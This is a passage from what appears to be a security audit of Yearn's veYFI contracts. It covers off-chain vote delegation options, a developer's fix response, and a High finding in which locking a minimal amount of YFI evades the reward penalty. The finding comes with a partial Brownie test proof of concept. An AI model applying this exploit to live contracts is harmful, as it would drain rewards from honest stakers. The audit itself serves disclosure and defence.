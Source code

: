 I see three different approaches to handle the off-chain voting:

1. Remove vote delegation to keep everything like Curve (most simple)
2. Remove the "until" value in the vote delegation and modify the voting delegation to use the DelegateRegistry from snapshot.org
3. Implement a custom voting strategy on snapshot.org to handle the delegation and "until" values (most complex)

#### Developer Response

The VoteDelegation.sol contract has been removed in [PR #137](https://github.com/yearn/veYFI/pull/137) and it will be replaced by the suggested contract from snapshot.org.

### 2. High - Lock 1e-18 YFI to Get Rewards (NibblerExpress)

`_updateReward()` computes a penalty based on the locking ratio of the account. A maximum possible lock of the smallest possible value allows a user to avoid any penalty without locking any amount of value.

#### Proof of concept

```
def test_gauge_cheat_yfi_lock(
    yfi, ve_yfi, whale, whale_amount, shark, shark_amount, fish, fish_amount, create_vault, create_gauge, gov
):

    yfi.approve(ve_yfi, shark_amount, {"from": shark})
    ve_yfi.create_lock(
        shark_amount, chain.time() + 4 * 3600 * 24 * 365, {"from": shark}
    )
    assert yfi.balanceOf(shark) == 0

    yfi.approve(ve_yfi, fish_amount, {"from": fish})
    ve_yfi.create_lock(
        fish_amount, chain.time() + 4 * 3600 * 24 * 365, {"from": fish}
    )
    assert yfi.balanceOf(fish) == 0

    yfi.approve(ve_yfi, 1, {"from": whale})
    ve_yfi.create_lock(
        1, chain.time() + 4 * 3600 * 24 * 365, {"from": whale}
    )
    assert yfi.balanceOf(whale) == whale_amount - 1

    lp_amount = 10**18
    vault = create_vault()
    tx = create_gauge(vault)
    gauge = Gauge.at(tx.events["GaugeCreated"]["gauge"])

    vault.mint(shark, lp_amount/100)
    vault.approve(gauge, lp_amount, {"from": shark})
    gauge.deposit({"from": shark})

    vault.mint(fish, lp_amount/100)
    vault.approve(gauge, lp_amount, {"from": fish})
    gauge.deposit({"from": fish})

    vault.mint(whale, 100*lp_amount)
    vault.approve(gauge, 100*lp_amount, {"from": whale})
    gauge.deposit({"from": whale})

    yfi_to_distribute = 10**16
    yfi.mint(gov, yfi_to_distribute)
```